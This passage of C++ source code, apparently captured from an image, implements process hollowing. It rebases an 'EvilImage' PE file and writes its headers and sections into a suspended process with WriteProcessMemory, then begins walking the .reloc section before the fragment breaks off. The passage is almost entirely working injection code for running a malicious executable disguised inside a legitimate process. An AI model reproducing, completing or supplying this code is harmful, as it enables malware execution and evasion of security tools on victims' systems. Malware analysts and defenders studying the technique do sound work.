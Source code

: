```cpp

		// Change The Files Base Address To The Base Address Of The Susspended Process
		nt_head->OptionalHeader.ImageBase = (DWORD)BaseAddress;
	#endif
	#ifdef _WIN64
		// Calculate The Offset Of The Susspended Process Base Address From The Files Base Address
		DWORD64 BaseOffset = (DWORD64)BaseAddress - nt_head->OptionalHeader.ImageBase;
		printf("Original Process Base: 0x%llx\nEvil File Base: 0x%llx\nOffset: 0x%llx\n\n", nt_head->OptionalHeader.ImageBase, BaseAddress, BaseOffset);


		// Change The Files Base Address To The Base Address Of The Susspended Process
		nt_head->OptionalHeader.ImageBase = (DWORD64)BaseAddress;
	#endif
	// Write The Files Headers To The Allocated Memory In The Susspended Process
	if(!WriteProcessMemory(proc_info.hProcess, BaseAddress, EvilImage, nt_head->OptionalHeader.SizeOfHeaders, 0)){
		printf("Failed to write Headers\n");
		return 0;
	}

	// Write All The Sections From The Mapped File To the Susspended Process
	PIMAGE_SECTION_HEADER sec_head;

	printf("Writing Sections:\n");
	//Loop Over Every Section
	for ( int i = 0; i < nt_head->FileHeader.NumberOfSections; i++)
	{
		// Get The Head Of the Current Section
		sec_head = (PIMAGE_SECTION_HEADER)((LPBYTE)EvilImage + dos_head->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		printf("0x%lx -- Writing Section: %s\n", (LPBYTE)mem + sec_head->VirtualAddress, sec_head->Name);
		// Write The section From The File In the Allocated Memory
		if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((LPBYTE)mem + sec_head->VirtualAddress), (PVOID)((LPBYTE)EvilImage + sec_head->PointerToRawData), sec_head->SizeOfRawData, NULL)) {
			printf("Error Wriring section: %s. At: %x%llp\n", sec_head->Name, (LPBYTE)mem + sec_head->VirtualAddress);
		}
	}

	// Check If There Is an Offset Between the Base Addresses
	if (BaseOffset) {

		printf("\nRelocating The Relocation Table...\n");

		// Loop Over Evey Section
		for (int i = 0; i < nt_head->FileHeader.NumberOfSections; i++)
		{
			// Get The Head Of the Current Section
			sec_head = (PIMAGE_SECTION_HEADER)((LPBYTE)EvilImage + dos_head->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
			
			// Compare The Secction Name To The ".reloc" Section
			char pSectionName[] = ".reloc";
			if (memcmp(sec_head->Name, pSectionName, strlen(pSectionName))) {
				// If The Section Is Not The ".reloc" Section Conntinue To The Next Section
				continue;
			}

			// Get The Address Of the Section Data
			DWORD RelocAddress = sec_head->PointerToRawData;
```